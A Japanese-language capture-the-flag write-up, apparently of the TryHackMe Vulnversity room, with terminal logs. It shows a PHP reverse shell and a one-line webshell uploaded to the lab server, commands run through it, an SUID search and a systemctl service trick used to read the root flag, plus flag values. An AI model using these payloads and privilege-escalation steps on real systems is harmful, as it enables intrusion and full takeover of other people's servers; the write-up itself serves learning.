<tr><td valign="top"><img src="/icons/unknown.gif" alt="[ ]"></td><td><a href="shell.phtml">shell.phtml</a></td><td align="right">2025-06-12 15:01 </td><td align="right">5.4K</td><td> </td></tr>
<tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.41 (Ubuntu) Server at 10.48.179.41 Port 3333</address>
</body></html>
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$
すごい。ちゃんとスラッシュつけただけで見えるようになった
つぎに見つけた怪しいファイルを見てみる
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl http://10.48.179.41:3333/internal/uploads/shell.phtml
WARNING: Failed to daemonise. This is quite common and not fatal.
Connection timed out (110)
┌──(rkametani㉿rkametani-1-kalija)-[~]
数十秒待機したのち、ワーニングが出てタイムアウトされた
コードが見れると思ったけど実行されてる？
-vオプションをつけると通信のどの段階で止まっているのか見れるらしい
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl http://10.48.179.41:3333/internal/uploads/shell.phtml -v
* Trying 10.48.179.41:3333...
* Established connection to 10.48.179.41 (10.48.179.41 port 3333) from 192.168.205.211 port 59486
* using HTTP/1.x
> GET /internal/uploads/shell.phtml HTTP/1.1
> Host: 10.48.179.41:3333
> User-Agent: curl/8.19.0
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 24 Apr 2026 02:26:52 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 94
< Content-Type: text/html; charset=UTF-8
<
WARNING: Failed to daemonise. This is quite common and not fatal.
Connection timed out (110)
* Connection #0 to host 10.48.179.41:3333 left intact
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$
よくわからんので-oで手元に保存してcatしてみる
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.179.41:3333/internal/uploads/shell.phtml -o shell
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 94 100 94 0 0 3 0 00:31 00:30 00:01 18
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ ls
shell
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ ll
合計 4
-rw-rw-r-- 1 rkametani rkametani 94 4月 24 11:32 shell
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ cat shell
WARNING: Failed to daemonise. This is quite common and not fatal.
Connection timed out (110)
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$
うまくいかず。
そもそもcurl -oは実行したあとに保存するので、今回も同様に実行されてそのエラー文が出た形になったらしい
つぎの試みとして自分で作ったリバースシェルをアップロードできないか試す
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ vim revshell.phtml
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ cat revshell.phtml
<?php
// IPとPORTを自分の環境に合わせて書き換える
$ip = '192.168.205.211';
$port = 4444;
$sol=proc_open('/bin/sh -i', array(0 => array('pipe', 'r'), 1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $pipes);
if (is_resource($sol)) {
while (!feof($pipes[1])) echo fread($pipes[1], 1024);
while (!feof($pipes[2])) echo fread($pipes[2], 1024);
}
?>
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$
まずコードを作る
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
listenポートを開ける
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.179.41:3333/internal/uploads/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
<head>
<title>Index of /internal/uploads</title>
</head>
<body>
<h1>Index of /internal/uploads</h1>
<table>
<tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
<tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/internal/">Parent Directory</a></td><td> </td><td align="right"> - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[ ]"></td><td><a href="revshell.phtml">revshell.phtml</a></td><td align="right">2026-04-23 22:39 </td><td align="right">374 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[ ]"></td><td><a href="shell.phtml">shell.phtml</a></td><td align="right">2025-06-12 15:01 </td><td align="right">5.4K</td><td> </td></tr>
<tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.41 (Ubuntu) Server at 10.48.179.41 Port 3333</address>
</body></html>
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$
ブラウザからアップロードしてcurlコマンドで反映されているかを確認する
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.179.41:3333/internal/uploads/revshell.phtmp -v
-vで詳細を追いつつ、アップロードしたシェルを実行してみる
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.179.41:3333/internal/uploads/revshell.phtml -v
* Trying 10.48.179.41:3333...
* Established connection to 10.48.179.41 (10.48.179.41 port 3333) from 192.168.205.211 port 60354
* using HTTP/1.x
> GET /internal/uploads/revshell.phtml HTTP/1.1
> Host: 10.48.179.41:3333
> User-Agent: curl/8.19.0
> Accept: */*
>
* Request completely sent off
^C
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$
かたまって反応がない
listenポートのほうにも変化がない
試しにより簡単なシェルをアップロードして機能するか試す
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.179.41:3333/internal/uploads/test.phtml -v
* Trying 10.48.179.41:3333...
* Established connection to 10.48.179.41 (10.48.179.41 port 3333) from 192.168.205.211 port 40174
* using HTTP/1.x
> GET /internal/uploads/test.phtml HTTP/1.1
> Host: 10.48.179.41:3333
> User-Agent: curl/8.19.0
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 24 Apr 2026 02:53:31 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 54
< Content-Type: text/html; charset=UTF-8
<
uid=33(www-data) gid=33(www-data) groups=33(www-data)
* Connection #0 to host 10.48.179.41:3333 left intact
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$
idコマンドが実行できていることからRCE自体は成功していることが分かる
別のshellを送って情報が取れないか試してみる
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
これは任意のコードをcurlコマンドの末尾につけて実行できるRCEのシェルコードだ
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.179.41:3333/internal/uploads/webshell.phtml?cmd=whoami
<pre>www-data
</pre>
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.151.177:3333/internal/uploads/webshell.phtml?cmd=pwd
<pre>/var/www/html/internal/uploads
</pre>
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.151.177:3333/internal/uploads/webshell.phtml?cmd=ls
<pre>shell.phtml
webshell.phtml
</pre>
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.151.177:3333/internal/uploads/webshell.phtml?cmd=ls+-la
<pre>total 20
drwxr-xr-x 2 www-data www-data 4096 Apr 24 00:06 .
drwxr-xr-x 4 www-data www-data 4096 Jul 31 2019 ..
-rw-r--r-- 1 www-data www-data 5495 Jun 12 2025 shell.phtml
-rw-r--r-- 1 www-data www-data 61 Apr 24 00:06 webshell.phtml
</pre>
途中で昼休憩を挟んだためipアドレスが変わっている
どうやってflagを探そう
/snap/core20/2582/usr/lib/python3.9/lib2to3/PatternGrammar.txt
/snap/core20/2582/usr/share/doc/mount/mount.txt
/snap/core20/2582/usr/share/subiquity/subiquity-0.0.5.egg-info/dependency_links.txt
/snap/core20/2582/usr/share/subiquity/subiquity-0.0.5.egg-info/entry_points.txt
/snap/core20/2582/usr/share/subiquity/subiquity-0.0.5.egg-info/top_level.txt
/snap/core20/2582/usr/share/vim/vim81/doc/help.txt
/home/bill/user.txt
</pre>
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.151.177:3333/internal/uploads/webshell.phtml?cmd=find+/+-name+*.txt | wc -l
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 57562 0 57562 0 0 38116 0 00:01 38123
1102
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$
すごく大量にヒットした
1102個見つかった！
一番下にuser.txtがあったのできっとこれだろう
shellに投げたコマンドはfind / -name *.txtである
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.151.177:3333/internal/uploads/webshell.phtml?cmd=cat+/home/bill/user.txt
<pre>8bd7992fbe8a6ad22a63361004cfcedb
</pre>
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$
通った！！
けどなんかこれ小問構成だったらしい！！！！
まじかよ！！！
宮澤さんに聞いたら「リバースシェルのほうも出来るはずです」とのことだったので
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ sudo apt install webshells
webshellsを改めてインストールしてその中には入っているものを試すことにした
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php ./myshell.phtml
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ vim myshell.phtml
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.151.177:3333/internal/uploads/myshell.phtml
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.205.211] from (UNKNOWN) [10.48.151.177] 42324
Linux ip-10-48-151-177 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
00:28:59 up 26 min, 0 users, load average: 0.00, 0.00, 0.05
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
いけたみたいです
$ find / -name user.txt 2>/dev/null
/home/bill/user.txt
$
2>/dev/nullを入れないとpermission deniedの行が大量ヒットしてウザいです
そういえば元々入っていたが動かなかったshell.phtmlの中身もcatで見ることができた
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/vulnversity]
└─$ curl http://10.48.151.177:3333/internal/uploads/webshell.phtml?cmd=cat+shell.phtml
<pre><?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only. Users take full responsibility
// for any actions performed using this tool. The author accepts no liability
// for damage caused by this tool. If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
webshellsに入っているphpのリバーシェルのコードと同一のものであった
ただ起動しなかったのはLHOSTSが異なるものだったから
user.txtを取得できたのでつぎは権限昇格を目指す
SUID持ちを探そう
なんだっけコマンド
$ find / -perm -4000 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/mount
/bin/umount
/bin/systemctl
/bin/fusermount
/snap/snapd/24505/usr/lib/snapd/snap-confine
/snap/core20/2582/usr/bin/chfn
/snap/core20/2582/usr/bin/chsh
/snap/core20/2582/usr/bin/gpasswd
/snap/core20/2582/usr/bin/mount
/snap/core20/2582/usr/bin/newgrp
/snap/core20/2582/usr/bin/passwd
/snap/core20/2582/usr/bin/su
/snap/core20/2582/usr/bin/sudo
/snap/core20/2582/usr/bin/umount
/snap/core20/2582/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2582/usr/lib/openssh/ssh-keysign
/sbin/mount.cifs
$
できた。
けどここから怪しいものなんてわかりませーん！
[!tip] 権限昇格を狙っているときにSUIDのついたファイルを列挙できたとして、なにを考えて各ファイルを怪しいか怪しくないか判断すればよいの
SUIDファイルを列挙した後の判断基準について、以下の観点で考えます。
まず「正常なSUIDバイナリ」を除外する
Linuxには設計上SUIDが必要な標準バイナリが存在します。これらは基本的に（既知のCVEがない限り）無視してよい対象です。
代表例：/bin/su,/bin/mount,/bin/umount,/bin/ping,/usr/bin/passwd,/usr/bin/chsh,/usr/bin/chfn,/usr/bin/newgrp,/usr/bin/gpasswd,/usr/bin/sudo,/usr/bin/pkexec（※pkexecはCVE-2021-4034 PwnKitで有名なので必ずバージョン確認）GTFOBinsに載っているか確認する
これが最重要の判断軸です。gtfobins.github.ioにはSUIDで悪用可能なバイナリと具体的な悪用手法が網羅されています。列挙したバイナリ名をGTFOBinsで検索し「SUID」セクションがあれば即悪用候補です。
例：find,nmap(古いバージョン),vim,nano,less,more,awk,python,perl,ruby,bash,cp,mv,tar,zip,envなどがSUIDで見つかったら当たりです。「見慣れないバイナリ」を怪しむ
以下のパターンは特に疑う価値があります。
-/usr/local/bin/,/opt/,/home/*/にある独自バイナリ（管理者が自作したスクリプトやツール）
- パッケージマネージャで入らない非標準のパス
- 名前から用途が推測できないバイナリ
これらはfile,strings,ltrace,straceで挙動を調べる価値があります。特にstringsで相対パス呼び出し（system("service ...")のような）が見えたらPATHハイジャックの余地があります。カスタムバイナリの分析観点
独自のSUIDバイナリを見つけたら以下をチェックします。
- 相対パスでコマンド実行しているか（system("ls")など）→ PATH注入
- 引数をそのままシェルに渡しているか → コマンドインジェクション
- 環境変数を信頼しているか（LD_PRELOADは通常SUIDでは無効だが、LD_LIBRARY_PATHや独自環境変数の扱いに穴がある場合あり）
- 設定ファイルやライブラリを書き込み可能な場所から読んでいるかバージョン番号を確認する
標準バイナリでもバージョンが古ければCVEが刺さります。
--versionで確認し、pkexec, sudo(Baron Samedit CVE-2021-3156), screen などは定番です。実務的なフロー
列挙結果を眺めて、まず頭の中で「標準SUID」を消去し、残った中で GTFOBins ヒット品と見慣れないバイナリを優先的に掘る、という順序が効率的です。
わかったかな？
今回のケースではsystemctlがそれにあたる
サーバの防護で無限に使ったよねこれ
systemctlは普段の運用ではos上のサービス（デーモン）の管理によく使われます
apacheやsshなどを立ち上げたりなど。
なのでこれは普通に考えてroot権限でしか動かせないようにしているはず
なのにSUIDが割り当てられているということは一般ユーザーも実行できる状況になっているということ
これはセキュリティ上の異常であり、本問における脆弱性である
ということでGTFOBinsでsystemctlを探す
GTFObinsでは以下が見つかった
echo '[Service]
Type=oneshot
ExecStart=/path/to/command
[Install]
WantedBy=multi-user.target' >/path/to/temp-file.service
systemctl link /path/to/temp-file.service
systemctl enable --now /path/to/temp-file.service
これは3つに手順を分けられる
まず任意コマンド/path/to/commandを実行するというサービスを作ってtemp-file.serviceという名前で保存する
その実体をsystemctlに結びつける
最後にenableすることでroot権限で任意コマンドが実行されるというわけ
GTFOBinsで物を見つけて実行にもっていけることが大事なので
コードの中身を完全に理解する必要はない
今回は任意コマンドをcat /root/root.txt > /tmp/output.txtとした
enableしたあとはここにいけばファイルが見つかるかもしれない
$ echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output.txt"
[Install]
WantedBy=multi-user.target' > /tmp/pwn.service> > > >
$ ls /tmp
pwn.service
snap-private-tmp
systemd-private-6d759b8cbd524860a9100278c1a7fb5e-systemd-logind.service-EqdQUf
systemd-private-6d759b8cbd524860a9100278c1a7fb5e-systemd-resolved.service-eYlmph
systemd-private-6d759b8cbd524860a9100278c1a7fb5e-systemd-timesyncd.service-FzlXSe
$ cat pwn.service
cat: pwn.service: No such file or directory
$ cat /tmp/pwn.service
[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output.txt"
[Install]
WantedBy=multi-user.target
$ /bin/systemctl link /tmp/pwn.service
Created symlink /etc/systemd/system/pwn.service -> /tmp/pwn.service.
$ /bin/systemctl enable --now /tmp/pwn.service
Created symlink /etc/systemd/system/multi-user.target.wants/pwn.service -> /tmp/pwn.service.
$ cat /tmp/output.txt
a58ff8579f0a9270368d33a9966c7fd5
$
おわり